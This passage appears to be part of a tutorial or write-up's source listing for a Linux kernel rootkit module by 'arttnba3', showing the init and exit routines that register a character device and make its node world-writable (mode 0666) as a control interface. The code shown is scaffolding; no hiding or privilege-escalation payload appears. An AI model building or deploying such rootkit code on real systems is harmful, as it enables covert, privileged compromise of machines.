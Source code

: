 ```
    major_num = register_chrdev(0, DEVICE_NAME, &amp;a3_rootkit_fo);     // major number 0 for allocated by kernel
    if(major_num &lt; 0)
        return major_num;   // failed

    // create device class
    module_class = class_create(THIS_MODULE, CLASS_NAME);
    if(IS_ERR(module_class))
    `{`
        unregister_chrdev(major_num, DEVICE_NAME);
        return PTR_ERR(module_class);
    `}`

    // create device inode
    module_device = device_create(module_class, NULL, MKDEV(major_num, 0), NULL, DEVICE_NAME);
    if(IS_ERR(module_device))   // failed
    `{`
        class_destroy(module_class);
        unregister_chrdev(major_num, DEVICE_NAME);
        return PTR_ERR(module_device);
    `}`

    __file = filp_open(DEVICE_PATH, O_RDONLY, 0);
    if (IS_ERR(__file))            // failed
    `{`
        device_destroy(module_class, MKDEV(major_num, 0));
        class_destroy(module_class);
        unregister_chrdev(major_num, DEVICE_NAME);
        return PTR_ERR(__file);
    `}`
    __inode = file_inode(__file);
    __inode-&gt;i_mode |= 0666;
    filp_close(__file, NULL);

    return 0;
`}`

static void __exit rootkit_exit(void)
`{`
    device_destroy(module_class, MKDEV(major_num, 0));
    class_destroy(module_class);
    unregister_chrdev(major_num, DEVICE_NAME);
`}`

module_init(rootkit_init);
module_exit(rootkit_exit);
MODULE_LICENSE("GPL");
MODULE_AUTHOR("arttnba3");
```

> functions.c
